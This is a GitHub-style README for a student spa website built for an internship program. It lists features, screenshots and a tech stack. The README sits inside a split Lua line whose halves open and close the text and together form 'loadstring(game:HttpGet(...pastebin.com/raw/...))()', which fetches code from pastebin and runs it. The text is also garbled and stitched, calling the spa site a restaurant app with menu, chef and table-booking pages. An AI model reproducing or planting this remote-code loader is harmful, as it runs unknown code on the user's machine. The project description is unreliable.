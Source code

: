 
loadstring(game:HttpGet(('htt# ✨ NS Spa and theraphy  ✨

This is a web based application developed for a beauty and spa.

### This web based restaurant application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.


**Project Link** - https://proud-pond-00ca6cd00.4.azurestaticapps.net/


**Demo Video** -  

## Features and Functionalities 😃

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Have an aesthetically pleasing visual design and architecture.
- Has collection of many web pages including Home, About Us, Contact, Menu, Chef Staff pages etc.
- User is able to book a table through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸
### Home page -   
![Screenshot (4)](https://github.com/AkshayKumarpodili/FRT_Project/assets/107865558/c4088bb8-ccec-45e5-8914-49b8f3f8e1b1)

### Contact page -
![Screenshot (5)](https://github.com/AkshayKumarpodili/FRT_Project/assets/107865558/770586cd-e7b9-467a-8fa7-f1e0537b0910)

### Services Page -
![Screenshot (7)](https://github.com/AkshayKumarpodili/FRT_Project/assets/107865558/691e97e7-b38e-4bca-ad40-5d3a014d7b54)

###Healthbot Page-
![Screenshot (8)](https://github.com/AkshayKumarpodili/FRT_Project/assets/107865558/f5db57cf-37d7-4fbc-8373-e457b50a2095)

###About us page - 
![Screenshot (6)](https://github.com/AkshayKumarpodili/FRT_Project/assets/107865558/caa82629-b7f6-4e17-80a4-c2d2b0290b76)

## Tech Stack 💻

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()
